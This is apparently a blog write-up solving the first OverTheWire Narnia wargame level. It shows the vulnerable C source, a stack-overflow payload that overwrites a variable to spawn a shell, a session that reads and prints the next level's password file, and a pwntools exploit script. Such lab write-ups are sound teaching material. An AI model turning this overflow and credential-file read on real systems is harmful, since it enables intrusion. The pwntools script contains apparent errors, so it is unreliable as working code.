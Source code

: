 ```yaml
---
layout: post
title:  "Overthewire - Narnia 0-4"
date:   2020-04-26 15:07:19
categories: [Binary Exploitation]
excerpt: "This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire."
comments: true
---
```


This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire.
![source](/img/source.png){: .align-left}

## Narnia 0-1
```c++

#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the code it's clear we need to give val the value of 0xdeadbeef to get a shell as narnia1 user.
By observing the code we can spot the issue from scanf() function. The scanf() is used to get the input for buffer buff. and this function have no bound checkings on input, buf variable is 20 bytes long but the scanf() reads in 24 bytes hence we can overwrite the variable “val” with any value we like.
```

```bash
file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0840ec7ce39e76ebcecabacb3dffb455cfa401e9, not stripped
```
Our target binary is an ELF 32-bit binary.ELF is Executable Linkable Format which consists of a symbol look-ups and relocatable table, that is, it can be loaded at any memory address by the kernel.

### Exploitation

Let's send some crafted input to the program and monitor

```python
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "CCCC"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
narnia0@narnia:/narnia$ 
```
Great we have overwritten the val variable with 0x43434343 which is our 4 "C". Now we know we can overite the val variable . We just need to replace "C" with 0xdeadbeef which is the correct value the program accept. Before that we need to convert 0xdeadbeef to little endian format as we are on little endian machine.
> 0xdeadbeef to little endian "\xef\xbe\xad\xde".

### Grabbing the flag:

```python
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

> Full exploit


```python
from pwn import *

context(arch='i386', os='linux')
context.log_level = 'debug'
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', port=2226, password='narnia0')
sh = s.run('/narnia/narnia0')
payload = ""
payload = 'A'*20 + '\xef\xbe\xad\xde'
s.sendline(payload)
sh.recvline(s)
s.sendline('cat /etc/narnia_pass/narnia1')
sh.recvline(sh)
```

### Conclusion 
Pwned! Nice and simple bufferoverflow challenge .Next challenge is Narnia1.


>

